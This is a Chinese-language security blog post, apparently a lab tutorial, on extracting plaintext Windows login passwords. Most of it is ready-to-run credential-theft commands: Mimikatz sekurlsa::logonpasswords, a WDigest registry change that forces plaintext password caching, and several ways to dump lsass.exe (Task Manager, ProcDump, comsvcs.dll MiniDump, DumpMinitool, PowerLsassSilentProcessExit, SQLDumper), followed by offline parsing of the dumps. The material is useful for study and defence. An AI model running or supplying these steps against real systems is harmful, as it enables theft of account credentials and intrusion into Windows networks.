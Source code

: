 ```yaml
---
title: Windows明文密码获取
description: Windows明文密码获取
pubDate: 01 19 2025
image: https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-16.webp
categories:
  - 网络安全
tags:
  - 密码抓取
  - 其他
---
```


密码抓取，我们得先知道密码可能在哪。在 NTLM 那里，我们介绍了一个 `SAM` 文件，当用户在登录界面，输入账户密码时，`winlogon` 进程会将用户输入的密码传给 `lsass` 进程。此时 `lsass` 进程里面会有一份明文账户密码，然后经过 `NTLM Hash` 处理，把处理到的结果和 `SAM` 文件进行对比，判断用户是否能够登录成功。

所以这个明文密码，就是利用 `lsass` 进程会在内存中保存明文密码这一点进行操作。

> 注意：在安装了 `KB2871997` 补丁的系统以及 `WIN 10` 或 `WIN 2012` 以上, 默认不在内存中保存明文密码

## 利用 Mimikatz 直接获取明文密码

我们在 `Win7` 环境中进行测试。此方法可以获取到**登录过的**用户的明文密码

正常工作组用户 `trtyr:admin!123` 使用 `mimikatz.exe`

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords fill" "exit"
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-2.webp)

可以看到，左侧是普通权限，运行命令出现了错误；右侧获取到了 `WIN7` 本地工作组的明文账号密码 `trtyr:admin!123`，以及用户的 `NTLM Hash`。而且下面还获取到了两个域用户的明文账号密码

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-3.webp)

我们接着使用域账号 `TRTYR\trtyr:root` 登录，试试效果。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-4.webp)

可以看到效果一样。

## 修改注册表获取明文密码

有的时候会出现这种情况

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-5.webp)

这是因为系统默认禁止在内存缓存中保存明文密码，`Password` 字段显示为 `null`。此时可以通过修改注册表的方式抓取明文

```
# 允许保存明文密码
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# 禁止保存明文密码，默认值
reg add HKLMSYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-6.webp)

在显示"操作成功"后，需要**用户重新登录**才可生效。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-7.webp)

现在登录的是 `TRTYR\administrator` 用户，切换到 `TRTYR\trtyr` 用户

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-8.webp)

获取 `TRTYR\trtyr` 的明文密码。

## 转储lsass.exe进程

如果由于某些原因无法将 `mimikazt` 上传至目标机器，可以将 `lsass.exe` 进程进行转储。

### 任务管理器转储

在 `任务管理器` 的 `详细信息` 里，找到 `lsass.exe`，然后右键选择 `创建转储文件`，随后就会在目标位置生成一个 `lsass.DMP`

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-9.webp)

把这个拿出来，和自己的 `mimikazt` 放在一起，执行命令

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

得到目标当前登录的域用户的密码信息。

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-10.webp)

### ProcDump(白名单) 转储

微软自己有一个工具，`ProcDump`，它是一个命令行实用工具，其主要用途是在管理员或开发人员可用于确定峰值原因的峰值期间监视 CPU 峰值和生成故障转储的应用程序。

> 下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

将程序上传到目标靶机，然后执行命令创建 `lsass` 的转储文件

```
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

该操作需要管理员权限

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-11.webp)

然后就是和上面的一样了

### Comsvcs.dll 转储

`comsvcs.dll` 是 Windows 操作系统中的一个动态链接库（DLL），负责提供 `Component Services` 的核心功能。这个组件服务是一个用于构建分布式、可重用组件的系统，其中使用了 `COM` 和事务处理。

`comsvcs.dll` 作为Windows自带的DLL文件，它包含了一个名为 `MiniDump` 的函数，而该函数底层调用了 `MiniDumpWriteDump` 接口，我们可以利用该函数创建指定进程的转储文件。

1. 获取 `lsass` 进程 `PID`

```shell
tasklist | findstr /i lsass
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-12.webp)

2. 开启`SeDebugPrivilege`特权

利用 `comsvcs.dll` 导出转储文件，还需要开启 `SeDebugPrivilege` 权限，但是 `cmd` 本身是禁用 `SeDebugPrivilege` 特权的。我们可以直接使用 `powershell` 进行操作，因为 `powerhsell` 默认是启用。

```
powershell rundll32.exe comsvcs.dll,MiniDump 696 C:\Users\trtyr.TRTYR\Desktop\lsass.dmp full
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-13.webp)

然后就是用 `mimikatz` 读取 `lsass.dmp`

### DumpMinitool 转储

这是 `VS 2022` 自带的一个工具，可以利用该程序来导出 `lsass` 进程。

> 下载链接：https://pan.baidu.com/s/1szIjSGscsg1KeQOKSuM3kg?pwd=weq6

运行命令

```shell
DumpMinitool.exe --file lsass.dmp --processId 696 --dumpType Full
```

生成的 `lsass.dmp` 去 `mimikatz` 导出就行了。

### # PowerLsassSilentProcessExit 转储

这是一个 `ps` 脚本，会在目标位置生成一个文件夹，文件夹内会生成两个 `dmp`，一个是目标进程，也就是 `lsass` 的转储文件，一个是 `powershell` 的 `dmp`

> 下载链接：https://github.com/CompassSecurity/PowerLsassSilentProcessExit

执行命令

```powershell
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
PS C:\Users\trtyr.TRTYR\Desktop> .\PowerLsassSilentProcessExit.ps1 -DumpMode 0 -DumpPath C:\Users\trtyr.TRTYR\Desktop
```

得到文件夹，内容如下

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-14.webp)

使用 `mimikatz` 导出就行了

### SQLDumper(白名单) 转储

`Sqldumper.exe` 实用工具包含在 `Microsoft SQL Serve` r 中。它生成用于调试目的 `SQL Server` 和相关进程的内存转储。

`SQLDumper.exe` 包含在 `Microsoft SQL` 和 `Office` 中，可生成完整转储文件。

```
tasklist /svc | findstr lsass.exe  查看lsass.exe 的PID号
Sqldumper.exe <ProcessID> 0 0x01100  导出mdmp文件
```

![](https://img.trtyr.top/images/blog/Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96/001%20Windows%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E8%8E%B7%E5%8F%96-15.webp)

然后本地解密即可
